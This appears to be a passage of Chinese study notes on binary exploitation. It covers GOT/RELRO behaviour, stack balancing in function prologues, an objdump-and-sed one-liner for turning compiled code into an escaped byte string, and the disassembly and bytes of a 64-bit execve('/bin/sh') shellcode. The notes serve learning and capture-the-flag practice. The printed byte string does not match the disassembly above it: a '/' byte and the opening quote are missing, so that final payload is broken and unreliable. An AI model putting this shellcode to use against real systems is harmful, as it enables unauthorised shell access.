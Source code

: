 完全开启则直接所有都归类到.got 没有got.plt然后修改失败 段错误

一个小tip 关于栈平衡的问题

正常具有局部变量的函数一般是这样进入的:


```
  push ebp
  mov ebp,esp
  sub esp,xx
  ...
  mov esp,ebp
  pop ebp
  ret
```

这里的mov esp,ebp就涉及到栈平衡的一个操作。不管中间做了什么。esp会恢复到之前的地方。但是如果没有局部变量或者编译器优化 局部变量没有初始化 相当于这边没有sub esp,xxx 那么就不会有一个mov esp,ebp的恢复操作。栈就无法恢复之前 后续会崩溃.

当然x64 前6寄存器传参 就没有这个说法。这个依赖于编译器实现 程序复杂度等(可能存在代码优化或者寄存器占用等情况 ebp无法使用 那么就得一步步加减还原esp)



下面是一个提取机器码的脚本

```sh
objdump -d ./shellcode64.out | grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s | sed 's/^/"/'|sed 's/$/"/g'
```

```
objdump -d ./shellcode64.out：使用objdump工具以反汇编的形式查看./shellcode64.out文件。
grep '[0-9a-f]:'：通过grep查找包含'[0-9a-f]:'的行，也就是找出所有的二进制代码行。
grep -v 'file'：grep -v用来反向选择，这里是去掉包含file的行。
cut -f2 -d:：这是一个剪切命令，用冒号:`作为分隔符，取出第二个字段。
cut -f1-6 -d' '：这个命令表示，以空格作为分隔符，取出前6个字段。
tr -s ' '和tr '\t' ' '：将多余的空格和制表符均转换为一个空格。
sed 's/ $//g'：使用sed工具删除每行末尾留下的空格。
sed 's/ /\\x/g'：将空格替换为字符串\x。
paste -d '' -s：将所有行合并成一行。
sed 's/^/"/'和sed 's/$/"/g'：在整个字符串的开头和结尾分别加上一个双引号。
```


下面是objdump的结果

```
shellcode64.out:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:       48 31 d2                xor    %rdx,%rdx
  401003:       52                      push   %rdx
  401004:       48 bf 2f 62 69 6e 2f    movabs $0x68732f6e69622f,%rdi
  40100b:       73 68 00 
  40100e:       57                      push   %rdi
  40100f:       48 89 e7                mov    %rsp,%rdi
  401012:       48 31 f6                xor    %rsi,%rsi
  401015:       b0 3b                   mov    $0x3b,%al
  401017:       0f 05                   syscall 
```

提取输出内容：


```
\x48\x31\xd2\x52\x48\xbf\x2f\x62\x69\x6e\x73\x68\x00\x57\x48\x89\xe7\x48\x31\xf6\xb0\x3b\x0f\x05"
```

